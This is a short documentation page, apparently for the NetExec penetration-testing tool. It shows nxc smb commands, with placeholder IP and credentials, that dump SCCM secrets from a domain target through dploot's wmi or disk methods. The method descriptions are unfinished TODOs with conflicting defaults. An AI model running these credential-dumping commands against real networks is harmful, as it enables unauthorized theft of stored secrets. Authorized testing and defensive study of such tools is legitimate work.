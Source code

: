 # Dump SCCM

### Dump the SCCM from target using methods from dploot

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
2 methods are available:   
(default) 	wmi -  TODO
			disk - TODO (default)
```

```
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm disk
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --sccm wmi
```
